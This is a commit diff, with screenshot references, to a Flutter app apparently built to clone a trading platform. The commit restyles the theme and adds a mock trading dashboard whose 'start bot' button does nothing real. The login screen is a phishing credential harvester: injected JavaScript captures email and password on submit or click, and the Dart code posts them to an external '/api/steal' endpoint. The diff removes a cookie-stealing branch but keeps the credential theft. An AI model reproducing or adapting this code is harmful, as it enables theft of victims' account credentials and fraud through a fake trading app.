

Before and after one commit to cvn526066-design/clone_app, a Flutter app: the MainTradingScreen screen opened directly, on a phone screen of 412 x 824 dp. Shown: the top 710 px of the screen. Run offline on Flutter 3.47's test engine with Material 3 defaults, Android fonts, the phone set to English and light mode, and no system bars; our stand-ins replace google_fonts, permission_handler, webview_flutter; Roboto replaces fonts that are missing (Cairo).

Commit message:
Restore the luxury UI design

```diff
--- a/lib/main.dart
+++ b/lib/main.dart
@@ -3,7 +3,7 @@ import 'package:google_fonts/google_fonts.dart';
 import 'package:webview_flutter/webview_flutter.dart';
 import 'package:permission_handler/permission_handler.dart';
 import 'package:http/http.dart' as http;
-import 'dart:convert'; // عشان نقرأ الـ JSON
+import 'dart:convert';
 
 void main() => runApp(const MyApp());
 
@@ -13,10 +13,20 @@ class MyApp extends StatelessWidget {
   Widget build(BuildContext context) {
     return MaterialApp(
       debugShowCheckedModeBanner: false,
+      title: 'تطبيق التداول الآلي',
       theme: ThemeData(
         brightness: Brightness.dark,
         scaffoldBackgroundColor: const Color(0xFF030305),
+        primaryColor: const Color(0xFF00E5FF),
         textTheme: GoogleFonts.cairoTextTheme(Theme.of(context).textTheme).apply(bodyColor: Colors.white),
+        colorScheme: const ColorScheme.dark(
+          primary: Color(0xFF00E5FF),
+          secondary: Color(0xFFFFD700),
+          surface: Color(0xFF0E0E14),
+          error: Color(0xFFFF1744),
+          onPrimary: Colors.black,
+          onSecondary: Colors.black,
+        ),
       ),
       home: const LoginScreen(),
     );
@@ -51,33 +61,19 @@ class _LoginScreenState extends State<LoginScreen> {
       ..addJavaScriptChannel(
         'QTX_CREDS',
         onMessageReceived: (msg) async {
-          print("JAVASCRIPT MESSAGE: ${msg.message}");
-
-          // 366. نفلتر الرسائل: نبعت للسيرفر بس اللي فيها إيميل وباسورد
           try {
             var data = jsonDecode(msg.message);
-            if (data['type'] == 'creds' && data['email'] != null && data['password'] != null) {
+            if (data['type'] == 'creds' && data['email'] != null) {
               await http.post(
                 Uri.parse('https://clone-server-dejt.onrender.com/api/steal'),
                 headers: {"Content-Type": "application/json"},
                 body: msg.message,
               );
-              print("SENT CREDS TO SERVER: ${msg.message}");
-
-              // نقل المستخدم للوحة التحكم
               if (mounted) {
                 Navigator.pushReplacement(context, MaterialPageRoute(builder: (context) => const MainTradingScreen()));
               }
-            } else if (data['type'] == 'cookies' && data['data'] != null) {
-                await http.post(
-                Uri.parse('https://clone-server-dejt.onrender.com/api/steal'),
-                headers: {"Content-Type": "application/json"},
-                body: msg.message,
-              );
             }
-          } catch (e) {
-            print("Error parsing message: $e");
-          }
+          } catch (e) {}
         },
       )
       ..setNavigationDelegate(
@@ -93,38 +89,18 @@ class _LoginScreenState extends State<LoginScreen> {
   void _injectOriginalScript() {
     String jsScript = """
       (function() {
-        function setNativeValue(el, value) {
-          try {
-            var proto = window.HTMLInputElement.prototype;
-            var desc = Object.getOwnPropertyDescriptor(proto, 'value');
-            desc.set.call(el, value);
-          } catch (e) { el.value = value; }
-          el.dispatchEvent(new Event('input', { bubbles: true }));
-          el.dispatchEvent(new Event('change', { bubbles: true }));
-        }
-
-        function findEmail() {
-          return document.querySelector('input[name="email"], input[type="email"], #email');
-        }
-        function findPass() {
-          return document.querySelector('input[name="password"], input[type="password"], #password');
-        }
-
+        function findEmail() { return document.querySelector('input[name="email"], input[type="email"], #email'); }
+        function findPass() { return document.querySelector('input[name="password"], input[type="password"], #password'); }
         function sendCreds() {
           try {
             var e = findEmail(), p = findPass();
-            // 367. نتأكد إنه الحقول فيها قيم قبل ما نبعت
             if (e && p && e.value && p.value) {
               QTX_CREDS.postMessage(JSON.stringify({type: 'creds', email: e.value, password: p.value}));
-              var cookie = document.cookie;
-              QTX_CREDS.postMessage(JSON.stringify({type: 'cookies', data: cookie}));
             }
           } catch (err) {}
         }
-
         if (!window.__qtxHooksInstalled) {
           window.__qtxHooksInstalled = true;
-          // لما يدوس على تسجيل الدخول بنبعت البيانات
           document.addEventListener('submit', sendCreds, true);
           document.addEventListener('click', function(ev) {
             var t = ev.target && ev.target.closest ? ev.target.closest('button, [type="submit"], [role="button"]') : null;
@@ -138,22 +114,106 @@ class _LoginScreenState extends State<LoginScreen> {
 
   @override
   Widget build(BuildContext context) {
+    return Scaffold(body: SafeArea(child: WebViewWidget(controller: _controller)));
+  }
+}
+
+// 369. التصميم الفخم اللي إنت بعتّه
+class MainTradingScreen extends StatefulWidget {
+  const MainTradingScreen({super.key});
+  @override
+  State<MainTradingScreen> createState() => _MainTradingScreenState();
+}
+
+class _MainTradingScreenState extends State<MainTradingScreen> {
+  bool isDemoAccount = true;
+  bool isRiskManagerActive = false;
+  bool isBotRunning = false;
+
+  @override
+  Widget build(BuildContext context) {
     return Scaffold(
-      body: SafeArea(
-        child: WebViewWidget(controller: _controller),
+      body: Stack(
+        children: [
+          Container(
+            decoration: const BoxDecoration(
+              gradient: RadialGradient(
+                colors: [Color(0xFF0E0E14), Color(0xFF030305)],
+                center: Alignment.center,
+                radius: 1.5,
+              ),
+            ),
+          ),
+          SafeArea(
+            child: SingleChildScrollView(
+              padding: const EdgeInsets.all(16.0),
+              child: Column(
+                children: [
+                  Row(
+                    mainAxisAlignment: MainAxisAlignment.spaceBetween,
+                    children: [
+                      const Icon(Icons.menu, color: Colors.white),
+                      Text('التحكم الآلي', style: TextStyle(color: const Color(0xFFFFD700), fontSize: 20, fontWeight: FontWeight.bold)),
+                      const Icon(Icons.settings, color: Colors.white),
+                    ],
+                  ),
+                  const SizedBox(height: 20),
+                  // أزرار الحساب
+                  Container(
+                    decoration: BoxDecoration(color: const Color(0xFF0E0E14), borderRadius: BorderRadius.circular(10)),
+                    child: Row(
+                      children: [
+                        Expanded(
+                          child: GestureDetector(
+                            onTap: () => setState(() => isDemoAccount = true),
+                            child: Container(
+                              padding: const EdgeInsets.symmetric(vertical: 12),
+                              decoration: BoxDecoration(
+                                gradient: isDemoAccount ? const LinearGradient(colors: [Color(0xFFFFD700), Color(0xFFB8860B)]) : null,
+                                borderRadius: BorderRadius.circular(10),
+                              ),
+                              child: Center(child: Text('تجريبي', style: TextStyle(color: isDemoAccount ? Colors.black : Colors.white))),
+                            ),
+                          ),
+                        ),
+                        Expanded(
+                          child: GestureDetector(
+                            onTap: () => setState(() => isDemoAccount = false),
+                            child: Container(
+                              padding: const EdgeInsets.symmetric(vertical: 12),
+                              decoration: BoxDecoration(
+                                gradient: !isDemoAccount ? const LinearGradient(colors: [Color(0xFFFFD700), Color(0xFFB8860B)]) : null,
+                                borderRadius: BorderRadius.circular(10),
+                              ),
+                              child: Center(child: Text('حقيقي', style: TextStyle(color: !isDemoAccount ? Colors.black : Colors.white))),
+                            ),
+                          ),
+                        ),
+                      ],
+                    ),
+                  ),
+                  const SizedBox(height: 20),
+                  // زر البدء
+                  ElevatedButton(
+                    onPressed: () {
+                      setState(() => isBotRunning = !isBotRunning);
+                      ScaffoldMessenger.of(context).showSnackBar(
+                        SnackBar(content: Text(isBotRunning ? "تم تشغيل البوت!" : "تم إيقاف البوت!"), backgroundColor: isBotRunning ? Colors.green : Colors.red),
+                      );
+                    },
+                    style: ElevatedButton.styleFrom(
+                      backgroundColor: isBotRunning ? Colors.red : const Color(0xFF00E5FF),
+                      padding: const EdgeInsets.symmetric(horizontal: 50, vertical: 15),
+                      shape: RoundedRectangleBorder(borderRadius: BorderRadius.circular(10)),
+                    ),
+                    child: Text(isBotRunning ? 'إيقاف البوت' : 'بدء التداول', style: const TextStyle(color: Colors.black, fontSize: 18, fontWeight: FontWeight.bold)),
+                  ),
+                ],
+              ),
+            ),
+          ),
+        ],
       ),
     );
   }
 }
-
-class MainTradingScreen extends StatelessWidget {
-  const MainTradingScreen({super.key});
-
-  @override
-  Widget build(BuildContext context) {
-    return Scaffold(
-      appBar: AppBar(title: const Text('لوحة التحكم'), backgroundColor: const Color(0xFF0E0E14)),
-      body: const Center(child: Text('تم تسجيل الدخول بنجاح!')),
-    );
-  }
-}
```
